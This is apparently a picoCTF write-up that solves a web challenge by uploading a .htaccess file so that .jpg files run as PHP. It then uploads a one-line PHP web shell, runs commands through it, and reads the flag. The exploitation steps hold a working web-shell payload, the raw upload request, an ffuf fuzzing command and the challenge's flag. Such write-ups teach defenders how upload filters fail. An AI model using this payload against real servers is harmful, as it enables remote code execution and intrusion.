






# byp4ss3d (Medium, Web Exploitation)

>A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.

## Overview

This challenge focuses on bypassing file upload restrictions in a web application.

## Reconnaissance result

- The website is built using Apache and PHP
- The upload functionality only allows image file extensions such as `.jpg`, `.png`, and `.gif`
- The server is running on Debian
- The application allows uploading `.htaccess` files, this is the key to exploiting the challenge

## Vulnerability Analysis

From the analysis, the main issue lies in improper file upload validation.

An attacker can upload a `.htaccess` file to override the server configuration and redefine how certain file extensions are handled. For example, it is possible to configure the server to treat image files (e.g., `.jpg`) as PHP scripts.

This vulnerability allows an attacker to upload a malicious file (such as a backdoor disguised as an image) and execute arbitrary code on the server, potentially leading to:

- Remote Code Execution (RCE)
- Access to sensitive files on the server

## Exploitation Steps

### Step 1: Testing File Upload Restrictions

I first attempted to upload a `.php` file to the server, but the application responded with:
```
Not allowed!
```

This indicates that the server is filtering file types.

Next, I uploaded a valid image file, which succeeded:

```
Successfully uploaded!
Access it at: images/test.png
```

### Step 2: Testing Upload Behavior & Directory Enumeration

I then tried uploading the same file again and found that duplicate uploads are allowed.

After that, I performed directory fuzzing on the `/images` path to discover hidden files:
``` bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://amiable-citadel.picoctf.net:50524/images/FUZZ
```

The results revealed:

``` bash
.htaccess   [Status: 403]
.htpasswd   [Status: 403]
```

Although access is forbidden, the presence of these files suggests that the server is using .htaccess for configuration — which could be exploitable.

### Step 3: Overwriting `.htaccess`

I attempted to upload a blank `.htaccess` file, and it was successfully accepted by the server.



This confirms that:
- The server allows uploading `.htaccess`
- Existing `.htaccess` files can be overwritten

Next, I modified the `.htaccess` file to include:

```
AddType application/x-httpd-php .jpg
```

This directive forces the server to interpret `.jpg` files as PHP scripts.



### Step 4: Uploading a Malicious Payload

With the new configuration in place, I uploaded a `.jpg` file containing PHP code:
```
POST /upload.php HTTP/1.1
Host: amiable-citadel.picoctf.net:50524
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...

------WebKitFormBoundary
Content-Disposition: form-data; name="image"; filename="shell.jpg"
Content-Type: image/png

<?php system($_GET['c']); ?>

------WebKitFormBoundary--
```

This file acts as a web shell.



### Step 5: Gaining Remote Code Execution

I accessed the uploaded file via:
```
http://amiable-citadel.picoctf.net:50524/images/shell.jpg?c=ls
```

The server executed the command successfully, confirming Remote Code Execution (RCE).




### Step 6: Retrieving the Flag

Finally, I searched for the flag file on the server and read its contents:
```
picoCTF{s3rv3r_byp4ss_39f9de85}
```


